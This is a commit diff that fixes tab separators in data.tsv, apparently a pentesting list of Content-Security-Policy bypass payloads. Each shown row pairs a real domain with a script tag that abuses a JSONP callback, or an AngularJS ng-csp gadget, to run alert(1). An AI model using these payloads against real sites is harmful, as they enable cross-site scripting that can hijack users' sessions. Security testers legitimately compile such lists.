

Before and after one commit to ACK-J/CSP-B-Gone, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out.

Commit message:
fixed tabs

```diff
--- a/data.tsv
+++ b/data.tsv
@@ -306,3 +306,3 @@ cloud9.ldwebstudios.net	<script src="https://cloud9.ldwebstudios.net:7000/stats?
 cloudfront.cdn.casece.com	<script src="https://cloudfront.cdn.casece.com/_layouts/15/Geolocation/GetCountry.aspx?callback=alert%281%29%2F%2F&_=1728467518354"></script>
-cloud.tenable.com <script src="https://cloud.tenable.com/provisioning/v1/evaluation/invalid-domains?callback=alert%281%29"></script>
+cloud.tenable.com	<script src="https://cloud.tenable.com/provisioning/v1/evaluation/invalid-domains?callback=alert%281%29"></script>
 cmd.stofa.net	<script src="https://cmd.stofa.net/cmd.php?manufacturer=webtv&ver=6.7.0&company=boxer&model=Chrome&uid=null&drmKey=null&token=null&cmd=createTempUid&_=1728425956850&callback=%2522-alert%601%60-%2522"></script>
@@ -508,3 +508,3 @@ info.cloudflare.com	<script src="https://info.cloudflare.com//index.php/form/get
 info.elastic.co	<script src="https://info.elastic.co/index.php/form/getForm?munchkinId=813-MAM-392&form=6196&callback=alert"></script>
-info.tenable.com <script src="https://info.tenable.com/index.php/form/getForm?munchkinId=934-XQB-568&form=10616&url=https%3A%2F%2Fwww.tenable.com%2Fproducts%2Fnessus&callback=alert&_=1734632951358"></script>
+info.tenable.com	<script src="https://info.tenable.com/index.php/form/getForm?munchkinId=934-XQB-568&form=10616&url=https%3A%2F%2Fwww.tenable.com%2Fproducts%2Fnessus&callback=alert&_=1734632951358"></script>
 inno.blob.core.windows.net	<body ng-app ng-csp><script src="//inno.blob.core.windows.net/new/libs/AngularJS/1.2.1/angular.min.js"></script><div ng-app ng-csp><div ng-focus="x=$event;" id=f tabindex=0>foo</div><div ng-repeat="(key, value) in x.view"><div ng-if="key == 'window'">{{ [1].reduce(value.alert, 1); }}</div></div></div></body>
```
